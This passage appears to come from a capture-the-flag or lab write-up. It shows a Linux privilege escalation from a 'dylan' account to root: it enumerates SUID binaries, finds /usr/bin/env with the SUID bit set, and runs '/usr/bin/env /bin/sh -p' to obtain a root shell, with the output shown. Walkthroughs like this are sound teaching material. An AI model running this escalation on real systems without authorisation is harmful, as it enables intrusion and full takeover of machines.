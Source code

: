 Now we are inside the machine with the `dylan` account. We can try to escalate the privileges to the `root` account. 

First, we can see the files that have the `SUID` bit set:

```shell
$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/env
/usr/bin/umount
/usr/bin/gpasswd
```

We can see that the `/usr/bin/env` file has the `suid` bit set. We can try to escalate the privileges using this file. 

According to the [GTFOBins website](https://gtfobins.github.io/), we can use the following command to escalate privileges:

```shell
/usr/bin/env /bin/sh -p
```

Running this command will give us a shell with root privileges.

```
$ /usr/bin/env /bin/sh -p
# whoami
root
```
